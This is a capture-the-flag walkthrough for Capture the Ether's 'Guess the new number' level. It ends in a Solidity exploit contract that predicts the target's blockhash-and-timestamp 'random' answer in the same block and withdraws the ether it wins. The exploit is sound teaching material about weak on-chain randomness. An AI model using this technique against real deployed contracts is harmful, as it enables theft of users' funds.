 ```yaml
---
description: >-
  In Capture the Ether's "Guess the new number", we move beyond "guessing" the
  value of variables stored on-chain.
---
```


# Guess the new number

This [level](https://capturetheether.com/challenges/lotteries/guess-the-new-number/) challenges us to predict a dynamically-generated value that cannot be known prior to making our guess.

### Hints

<details>

<summary>Hint One</summary>

Anything the `GuessTheNewNumberChallenge` contract can do, a contract we deploy can do as well.&#x20;

</details>

### Full Walkthrough

Because the `answer` is generated on-demand, and because the source of its randomness cannot be known prior to making our guess, the only solution is to mimic the way the contract calculates the value of `answer` to determine what our guess should be. As the value depends on the previous block hash and the block timestamp, our guess calculation will need to be made in the same context as the contract's calculation.

Luckily, we are free to copy the `GuessTheNewNumberChallenge` contract's logic into our own smart contract, which we will use to make our guess. Both the logic in our own contract and the logic in the challenge contract will be executed in the same context as they will be bundled up into the same block.

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IGuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract GuessTheNewNumberChallengeExploit {
    /**
     * Correctly guesses answer of `GuessTheNewNumberChallenge` contract.
     */
    function guess(address contractAddress) external payable {
        // Calculate answer based on blockhash
        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        // Call contract with `answer`, passing `msg.value` ether
        IGuessTheNewNumberChallenge(contractAddress).guess{value: msg.value}(
            answer
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```
